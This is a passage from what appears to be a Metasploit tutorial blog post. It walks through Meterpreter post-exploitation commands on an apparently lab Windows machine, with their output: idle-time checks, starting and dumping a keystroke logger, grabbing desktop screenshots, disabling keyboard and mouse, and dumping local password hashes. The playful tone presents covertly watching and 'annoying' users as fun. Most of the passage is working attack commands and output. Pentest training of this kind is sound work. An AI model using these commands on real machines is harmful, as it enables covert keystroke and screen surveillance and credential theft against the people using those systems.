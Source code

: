 ``` plain
Session 1\W\D
```

See how long the user has been idle:

``` plain
meterpreter > idletime
User has been idle for: 5 mins 10 secs
```

If you want to know what the user is up to, you can start a keylogger and quietly observe everything like a ghost in the machine:

``` plain
meterpreter > keyscan_start 
Starting the keystroke sniffer...
```

I typed something on the hacked machine and now I'm going to dump the keystrokes and see what we've got:

``` plain
meterpreter > keyscan_dump
Dumping captured keystrokes...
much $ such security wow
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

Now I want to see what the user sees. So let's take a screenshot:

``` plain
meterpreter > screenshot
Screenshot saved to: /root/ahhOgnkh.jpeg
```

{% img center /images/tools/metasploit/ss.jpeg 'screenshot' 'screenshot of target desktop' %}

In case you want to annoy the user, you can mess with some of the user interface:

``` plain
meterpreter > uictl -h
Usage: uictl [enable/disable] [keyboard/mouse/all]
```

I can't demo the webcam and mic commands now so I won't go into those, but you have them at your disposal if the target has a webcam or microphone

## Post exploitation

Once you have a foothold on the system, there are more things that you can do to assist you in squeezing more juice out of the hacked machine

### Dumping hashes

You can use *hashdump* to dump the local hashes:

``` plain
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
wingoat:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
